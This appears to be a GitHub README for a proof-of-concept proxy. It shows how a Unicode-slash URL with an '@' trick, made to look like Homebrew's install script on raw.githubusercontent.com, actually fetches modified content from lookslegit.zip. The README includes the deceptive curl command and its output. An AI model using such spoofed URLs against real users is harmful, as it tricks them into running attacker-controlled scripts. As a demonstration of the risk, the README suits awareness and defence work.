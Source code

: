 # ✨ `lookslegit.zip`

Jumping on the `.zip` tld hype train, & because we can use unicode characters in URLs now, we can make a nice web proxy that proxies http requests through a trick with Basic Auth and modify the payload of a seemingly safe looking URL. 

After you curl, notice the headers in the `curl` response to include the following:

```
❯ curl -v https:⧸⧸raw.githubusercontent.com⧸Homebrew⧸install⧸HEAD⧸install.sh@lookslegit.zip | head
...
* Server auth using Basic with user 'https'
> GET / HTTP/1.1
> Host: lookslegit.zip
> Authorization: Basic aHR0cHM64qe44qe4cmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbeKnuEhvbWVicmV34qe4aW5zdGFsbOKnuEhFQUTip7hpbnN0YWxsLnNo
< HTTP/1.1 200 OK
...
< warning: This response was modified, and the results should not be trusted. Like at all.
...
<
* Connection #0 to host lookslegit.zip left intact
lol owned
...
```

## Usage

```bash
# Replace / with ⧸ character 
curl -v https:⧸⧸raw.githubusercontent.com⧸Homebrew⧸install⧸HEAD⧸install.sh@lookslegit.zip
```

## Build

```bash
npm run build && node dist/server.js
```